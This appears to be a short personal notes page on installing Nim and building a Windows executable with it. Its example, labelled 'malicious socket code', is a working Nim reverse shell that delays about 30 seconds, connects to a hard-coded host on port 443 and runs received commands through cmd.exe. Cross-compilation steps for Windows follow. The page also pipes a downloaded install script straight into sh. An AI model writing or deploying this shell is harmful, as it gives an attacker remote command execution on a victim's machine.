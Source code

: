```yaml
---
description: 05-11-2023
---
```


# Nim

## Installation

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

chown:

```
sudo chown -R $(whoami) /opt/homebrew/Cellar/mingw-w64/11.0.0/
```

Add to PATH:

```
fish_add_path /opt/homebrew/bin/
export PATH=/opt/homebrew/bin/
```

## Example Build

test.nim (malicious socket code):

```
import net, osproc, strformat, times

let now1 = now() + 30.seconds
var i = 1

while now() <= now1:
    var i = i + 1

let
    ip = "192.168.1.119"
    port = 443
    sock = newSocket()

sock.connect(ip, Port(port))

let prompt = "Nim-Shell> "
while true:
    send(sock, prompt)
    let bad = recvLine(sock)
    let cmd = execProcess(fmt"cmd.exe /C " & bad)
    send(sock, cmd)
```

Build:

```
nim c -d:x86_64-w64-mingw32-gcc test.nim
```

You should then see <mark style="color:blue;">**SuccessX**</mark>:

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

You will then have an executable test binary.

## Testing code (run and compile for your current arch.)

```
nim c --run test.nim
```
